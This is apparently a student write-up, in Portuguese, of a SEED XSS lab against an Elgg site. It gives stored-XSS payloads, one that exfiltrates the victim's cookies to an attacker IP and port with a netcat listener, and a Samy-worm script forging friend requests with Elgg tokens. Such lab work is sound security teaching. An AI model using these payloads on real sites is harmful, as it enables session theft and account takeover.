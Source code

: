 ### Task 1

O objetivo desta tarefa é incorporar código Javascript no perfil do Elgg de um utilizador de forma a que quando um utilizador visualize o perfil desse utilizador o código Javascript seja executado e uma janela seja exibida.

ㅤㅤㅤ```<script>alert('XSS');</script>```

ㅤㅤㅤ<script>: abre uma tag "script".

ㅤㅤㅤalert(): cria uma janela pop-up com uma mensagem à nossa escolha, sendo esta <br/>ㅤㅤㅤcolocada como parametro da mesma.

- **1º passo:** dar login numa conta existente, neste caso utilizamos a conta da Alice
- **2º passo:** editar o campo brief description quando editamos o perfil, adicionando o código Javascript mencionado anteriormente

  <img width="704" alt="Screenshot 2023-05-02 at 14 15 47" src="https://user-images.githubusercontent.com/98234753/235677232-6743bace-bd3b-4ee3-ae71-e783c43df0be.png">

- **3º passo:** dar login noutra conta para verificar se o ataque XSS foi bem sucedido, neste caso, utilizamos a conta do Samy

  <img width="704" alt="Screenshot 2023-05-02 at 14 16 21" src="https://user-images.githubusercontent.com/98234753/235677397-669c6c89-e796-470c-8775-e94f6bba1296.png">


  Assim, sempre que alguém visitar o perfil da Alice irá ser aberta uma janela como na print anterior.

### Task 2

O objetivo desta tarefa é semelhante ao anterior, no entanto os cookies do utilizador sejam exibidos na janela de alerta.

ㅤㅤㅤ```<script>alert(document.cookie);</script>```

ㅤㅤㅤO procedimento é semelhante ao da tarefa anterior, no entanto o conteúdo do "alert()" é <br/> ㅤㅤㅤsubstituído pelos cookies do utilizador (document.cookie).

  <img width="703" alt="Screenshot 2023-05-02 at 14 19 16" src="https://user-images.githubusercontent.com/98234753/235678209-9abbe652-e363-4c86-86d6-f46f11eb7526.png">

  Resultado do ataque:

  <img width="701" alt="Screenshot 2023-05-02 at 14 19 51" src="https://user-images.githubusercontent.com/98234753/235678350-9a1f443a-ae36-41ca-845b-38feff736db5.png">


  **NOTA:** o utilizador logado vê as suas cookies, ou seja, o atacante não vê as cookies dos utilizadores, apenas as suas.

### Task 3

O objetivo desta tarefa é enviar os cookies do utilizador para o a atacante.Isto é feito por meio de inserção de uma tag HTML (<img>) que realiza um request que é enviado para a máquina do atacante (10.9.0.1; porta:5555)


ㅤㅤㅤ``` <script>document.write(’<img src=http://10.9.0.1:5555?c=’+ escape(document.cookie) + ’ >’); ㅤㅤㅤ</script>ㅤㅤㅤ```

**document.write()**: escreve o conteúdo especificado no documento HTML

**img src=http://10.9.0.1:5555?c=**: especifica a tag de img a ser inserida onde o atributo src é definido como o endereço de IP do atacante e a porta.

**escape(document.cookie)**: é uma função que codifica a string fornecida(o valor da cookie armazenada pelo navegador)como um argumento numa forma segura para ser transmitida como um parametro URL.

![T3_a](https://user-images.githubusercontent.com/123839132/235759162-6dec205f-f8d9-4990-b10b-f7554bf101ec.png)

Ao utilizar o seguinte comando ``` nc -lknv 5555 ``` conseguimos ter acessoa às cookies que são recebidas utilizando o prgrama netcat.
Na imagem abaixo, conseguimos verificar que o samy ao visitar o perfil da alice faz com que a alice tenha acesso às cookies do samy.

![T3_b](https://user-images.githubusercontent.com/123839132/235759353-b1f9a08f-1a1c-4737-b88b-970f052d4e7e.png)

### Task 4

Nesta tarefa pretendemos realizar um ataque semelhante ao que o Samy fez ao MySpace em 2005. O objetivo é a exploração da vulnerabilidade worn XSS com o objetivo de adicionar o “Samy” como amigo aos usuários que visitarem o seu perfil.

Temos a ferramenta de inspeção HTTP do Firefox que pode-nos ajudar a obter informações, ajudando a exibir o conteúdo de qualquer **HTTP Request** enviada pelo navegador.

Primeiramente temos que verificar como os pedidos de amizade são feitos, então inspecionamos o perfil do Samy de forma a recolher o **HTTP Request** associado ao adicionar o utilizador Samy:

``` http://www.seed-server.com/action/friends/add?friend=59&__elgg_ts=1641298313&__elgg_token=EngTeTi2UKXmCwYNdnKckQ&__elgg_ts=1641298313&__elgg_token=EngTeTi2UKXmCwYNdnKckQ ```
**Nota:** Conseguimos verificar que o ID do Samy é o 59.

Foi nos fornecido um código JavaScript com o objetivo de enviar a mesma solicitação HTTP que obtivemos anteriormente sempre que alguém visitasse o perfil do Samy.

* Depois de analisar o código fornecido, primeiramente mudamos a variável “**sendurl**” e atribuímos à mesma o URL para adicionar o Samy como amigo: ```http://www.seed-server.com/action/friends/add?friend=59```;

* Os parâmetros **ts** e **token** são necessários para autenticar e validar a nossa solicitação de adicionar o Samy como amigo. Adicionamos assim ao nosso URL usando o operador ```+``` para concatenar as strings;

* Essas variáveis foram definidas anteriormente no código e contêm os parâmetros ```__elgg_ts``` e ```__elgg_token```;

* Assim ao utilizar o ```ts + token``` estamos a inserir os valores dessas variáveis na URL, para que o nosso HTTP Request inclua os parâmetros corretos e seja autenticada corretamente pelo servidor;

```js
<script type="text/javascript">
window.onload = function () {
    var Ajax=null;
    var ts="&__elgg_ts="+elgg.security.token.__elgg_ts;
    var token="&__elgg_token="+elgg.security.token.__elgg_token;
    //Construct the HTTP request to add Samy as a friend.
    var sendurl="http://www.seed-server.com/action/friends/add?friend=59"+ts+token+ts+token; //FILL IN
    //Create and send Ajax request to add friend
    Ajax=new XMLHttpRequest();
    Ajax.open("GET", sendurl, true);
    Ajax.send();
}
</script>
```


 ![T4_a](https://user-images.githubusercontent.com/123839132/236896453-186b7f60-c4ce-409d-92da-d8625c4e1280.png)

Entramos na conta do Samy e o script foi colocado em "About Me" em modo texto:
 ![T4_b](https://user-images.githubusercontent.com/123839132/236896463-cc892031-8a18-4325-a544-291258400696.png)

 ![T4_c](https://user-images.githubusercontent.com/123839132/236896476-bf4a2524-1dc4-4cae-b821-c18312370c14.png)

 ![T4_d](https://user-images.githubusercontent.com/123839132/236896534-10e40c12-ffa8-4df5-8f46-2eaf44456069.png)

 Assim dando login na conta da Alice, observamos que a Alice é automaticamente adicionada como amigo da Samy, mesmo não tedo enviado um pedido de amizade.

 ![T4_e](https://user-images.githubusercontent.com/123839132/236896544-8bed1689-6db8-4fd2-ab3a-729695f91b63.png)

**Questão 1: Explique o propósito das Linhas ➀ e ➁, por que elas são necessárias?**

A linha ➀ inclui o timestamp (__elgg_ts), enquanto a linha ➁ inclui o token elgg (__elgg_token). Esses parâmetros são necessários para autenticar e validar o pedido HTTP, garantindo com que o servidor considere que a origem deste é a vitima.

**Questão 2: Se o aplicativo Elgg fornecer apenas o modo Editor para o campo "Sobre mim", ou seja, você não pode alternar para o modo Texto, ainda pode iniciar um ataque bem-sucedido?**

Se a aplicação Elgg fornecer apenas o modo de edição para o campo “Sobre Mim” e não permitir alterar o modo de texto, é difícil lançarmos um ataque bem-sucedido. Isto ocorre porque o modo editor geralmente filtra ou desabilita a capacidade de inserir código diretamente, podendo assim dificultar a execução de um ataque bem-sucedido.
